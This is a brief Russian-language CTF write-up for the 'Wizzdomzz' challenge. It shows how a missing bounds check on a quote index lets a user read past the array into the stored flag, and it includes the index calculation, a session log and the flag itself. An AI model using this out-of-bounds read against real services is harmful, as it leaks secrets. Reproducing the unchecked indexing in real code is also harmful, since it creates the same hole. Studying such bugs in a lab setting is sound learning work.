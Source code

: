 # Wizzdomzz writeup
Бинарь читаает **flag.txt** и пишет его содержимое в глобальный массив

Важной деталью является то, как рассчитывается адрес выбранной пользователем мудростью:

```c
address = &quotes_array + index * 120
```

И, как мы можем увидеть, отсутствуют проверки на диапазон индекса массива - это значит, что мы можем читать вне массива. Таким образом, мы можем дотянуться до места хранения флага. Давайте посчаитем индекс (адрес флага - `0x404C00`, адрес начала массива мудростей - `0x4040C0`):

```c
index = (&flag - &quotes_array) / 120 + 1
```

Итого `index = 25`:

```bash
Wizzdomzz service: free wisdoms for everyone!
Commands:
  w: Read wisdom
  q: Quit
> w
Enter wisdom id (1-20):
25
Here is your wisdom: li2CTF{d0n7_f0rg37_4b0u7_1nd3x35_ch3ck5_1n_C/C++}
```

Флаг: `li2CTF{d0n7_f0rg37_4b0u7_1nd3x35_ch3ck5_1n_C/C++}`
